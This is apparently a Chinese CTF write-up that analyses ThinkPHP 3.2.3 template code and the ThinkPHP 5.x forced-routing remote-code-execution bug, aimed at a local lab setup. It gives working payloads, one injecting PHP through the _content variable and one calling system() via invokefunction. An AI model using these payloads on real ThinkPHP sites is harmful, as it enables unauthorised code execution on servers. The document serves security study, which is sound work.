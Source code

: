::: dangerous
fu*k，白忙活了，我说怎么跟别的师傅环境不一样，我还一直以为我的是tp3.2.3，原来是tp3.2.5，天塌了
:::

[v3.2.3项目地址](https://github.com/top-think/thinkphp/releases/tag/3.2.3)

ok啊，不好意思。让我们重新开始，tp323和tp325版本只有这个`fetch`函数稍有不同


fetch函数：

extract() 是 PHP 的一个内置函数，它将数组 $this->tVar 中的键值对转换为独立的 PHP 变量，如果`$this->tVar`数组里有`_content`属性，那么会覆盖当前作用域的`_content`变量，`eval('?>' . $_content);`解析执行一个php代码

```php
if ('php' == strtolower(C('TMPL_ENGINE_TYPE'))) {
            // 使用PHP原生模板
            $_content = $content;
            // 模板阵列变量分解成为独立变量
            extract($this->tVar, EXTR_OVERWRITE);
            // 直接载入PHP模板
            empty($_content) ? include $templateFile : eval('?>' . $_content);
        } 
```

所以直接在这里传值覆盖一下`$this->assign($name,$from);`

因为assgin的if判断两种格式总之都是给属性`$this->tVar`添加新属性，所以payload有两种写法

```php
?name[_content]=<?php phpinfo();?>
?name=_content&from=<?php phpinfo();?>
```

## web 579

> 描述：未开启强制路由RCE

在tp官方文档里了解到了`强制模式`，像`flask`框架一样，只有定义的路由可以正常访问，否则抛出异常

![39](https://the0n3.top/medias/show-think/39.png)



在网上找到了[相关文章及poc](https://www.modb.pro/db/501435)，强制路由RCE漏洞Thinkphp5`5.0.0 - 5.1.30 远程代码执行（路由处理漏洞）`

![38](https://the0n3.top/medias/show-think/38.png)

其他师傅博客wp里的`payload`：`?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=ls`，跟着到源项目里跟一下漏洞点

[v5.1.28项目地址](https://github.com/top-think/framework/tree/v5.1.28)


在本地用phpstudy的composer在www目录搭个tp5.0.*的环境

```shell
composer create-project topthink/think=5.0.* tp5  --prefer-dist
```
